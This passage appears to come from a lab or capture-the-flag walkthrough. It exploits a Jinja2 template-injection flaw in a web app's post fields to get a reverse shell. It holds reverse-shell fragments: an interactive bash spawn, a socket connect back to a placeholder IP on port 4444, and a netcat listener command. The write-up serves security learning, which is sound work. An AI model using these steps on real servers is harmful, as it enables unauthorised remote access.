 If you were initially just executing a command such as:

```
subprocess.call(["/bin/cat", "flag.txt"]);
```

You'd get only file contents without interaction. By replacing it with:

```
subprocess.call(["/bin/bash", "-i"]);
```

you ensure the shell returned is fully interactive, allowing comprehensive command execution and easier exploitation.

#### Don’t Forget the Port!

Ensure consistency between your payload and listener ports:

```
s.connect(("ip",4444))
```

Always match this port with your listener (`nc -lvnp 4444`) to avoid connection issues.

***

### Testing Our RCE Payload

1. Craft a new message post, placing the Jinja2 RCE payload in the Title or Content field.
2. Save the post, confirm it appears under `/home`.
3. Start a netcat listener on port 4444:
4. `nc -lvnp 4444`
5. Browse to `/archive` to make the server parse our post.

<figure><img src="../../../.gitbook/assets/title-payload.png" alt=""><figcaption></figcaption></figure>



We see the post was accepted. When we load `/archive`, it should attempt to run our Python one-liner. If the IP and port match your listener, you should catch a reverse shell:
